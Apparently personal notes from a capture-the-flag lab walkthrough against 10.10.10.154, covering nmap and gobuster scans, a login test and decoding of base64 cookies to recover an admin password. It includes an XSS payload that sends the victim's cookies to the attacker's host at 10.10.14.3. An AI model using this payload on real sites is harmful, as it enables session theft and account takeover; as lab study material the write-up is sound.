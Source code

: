 Nmap Script and Service Scan
![[Pasted image 20240703133536.png]]
![[Pasted image 20240703133547.png]]

Nmap All Port Scan
![[Pasted image 20240703133833.png]]

On Port 80
![[Pasted image 20240703133933.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.154 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240703140124.png]]

On http://10.10.10.154/notes.txt
![[Pasted image 20240703134401.png]]

Registered user test:test@1234 and logged in
![[Pasted image 20240703134852.png]]

We can see the request when we transfer coin
![[Pasted image 20240703141301.png]]
There are three cookies, which id, username and password, all are base64 encoded.

Lets try to steal admin cookies, so will use the XSS script to do so
```
<script>var i=new Image(); i.src="http://10.10.14.3/?cookie="+btoa(document.cookie);</script>
```
I have used the the classic way if stealing cookies using this Link:https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
I have just put the script in all parameters
![[Pasted image 20240703141717.png]]

And already started python webserver on Port 80
![[Pasted image 20240703141744.png]]
got it, will decode it
```
echo "dXNlcm5hbWU9WVdSdGFXNCUzRDsgcGFzc3dvcmQ9U0c5d1pXeGxjM055YjIxaGJuUnBZdyUzRCUzRDsgaWQ9MQ==" | base64 -d

echo "YWRtaW4=" | base64 -d

echo "SG9wZWxlc3Nyb21hbnRpYw==" | base64 -d
```
![[Pasted image 20240703142048.png]]
So it is **admin:Hopelessromantic** 
